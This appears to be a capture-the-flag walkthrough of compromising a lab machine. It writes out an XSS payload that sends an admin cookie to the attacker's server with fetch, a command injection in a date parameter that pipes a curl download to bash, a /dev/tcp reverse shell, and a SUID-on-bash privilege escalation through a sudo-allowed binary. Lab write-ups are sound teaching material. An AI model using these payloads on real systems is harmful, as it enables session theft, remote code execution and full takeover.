 ![](https://i.imgur.com/TsLIrgv.png)

So for starters we are going to start with the initial reconnaissance.  it is crucial to gather information about the target machine before proceeding with further exploitation
```bash
$ nmap 10.10.11.8 -sC 

Host is up (1.4s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp  open     upnp
49153/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 810.66 seconds

```
So we acknowledge 2 open ports that’ s 22/tcp open ssh and 5000/tcp open upnp which seems interesting so lets dig in.
![](https://i.imgur.com/5FFAOT6.png)
upon clicking the `For question` button i was directed to the `/support` directory
![](https://i.imgur.com/rCkQXPM.png)

the `/support` directory is the only page the webserver referred to so i decide to fuzz for directories:
```bash
dirsearch -u http://10.10.11.8:5000/ --exclude-status 403,404,400,401 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
and that's how we discovered another endpoint `/dashboard`, but when we visit `/dashboard` we get an unauthorized  error meaning we probably don't have the rights and privileges to access this page on the system
![](https://i.imgur.com/ZSDSPe0.png)
at this point i load up burpsuite to see what is being transferred **behind the screen**. i went back to the only accessible page `/support` , fill the form and intercept my request
![](https://i.imgur.com/M2mVC7I.png)
From the request i see that the webserver is using cookies to verify if a user is admin or not  to access the dashboard
![](https://i.imgur.com/1BRIt3B.png)
this cookie segmentation process can be done through XSS on User-Agent through the page we can access which is `/support` .
i intercept the request again but before sending i added my malicious XSS payload to retrieve the Admins cookie.
![](https://i.imgur.com/Df35kuf.png)

```
<img src=x onerror=fetch('http://10.10.14.111:1337/'+document.cookie);>
```

![](https://i.imgur.com/mmV8W47.png)
and boom i got a hit from my server
![](https://i.imgur.com/GUties7.png)

i then copied the cookie and inspect the `/dashboard` page from my browsers and i edited the cookie parameter to the one i just stole from the webserver
![](https://i.imgur.com/I61bKIO.png)

checking what going on behind the screen:
![](https://i.imgur.com/9NSUTAZ.png)
i intercept the response of the `/dashboard` page and we are a to send a post request of the date but with an exploit so that we can gain RCE 

```bash
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.111/7331 0>&1'
#edit the IP
```

![](https://i.imgur.com/xhZULm3.png)

![](https://i.imgur.com/d5JoRof.png)
on the dashboard i intercept the request and clicked the generate report button
![](https://i.imgur.com/r4Nflle.png)
then i append this command to the end of the date parameter to force the server to download the formerly created malicious file and executeit
```bash
;curl http://10.10.14.111:1337/headless.sh|bash
```

![](https://i.imgur.com/OVdJE1r.png)
file download :
![](https://i.imgur.com/v1AosSf.png)
main Connection:
![](https://i.imgur.com/2Uf3tlW.png)

Now i will have to escalate my privilege to root
i run `sudo -l` and found out that the current user can run the `syscheck` binary with NOPASSWORD
![](https://i.imgur.com/zNoeypv.png)

![](https://i.imgur.com/VVGLfJB.png)
we can see`initdb.sh` is launched, so we just need to create and put malicious payload in it as follows.
```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```
![](https://i.imgur.com/O6c3BrG.png)

then run `/usr/bin/syscheck` with sudo privileges in the same folder that holds the `initdb.sh `then `/bin/bash -p` to access the root shell
```bash
sudo /usr/bin/syscheck
/bin/bash -p
```
![](https://i.imgur.com/KgQ96cN.png)

## Thanks For Reading
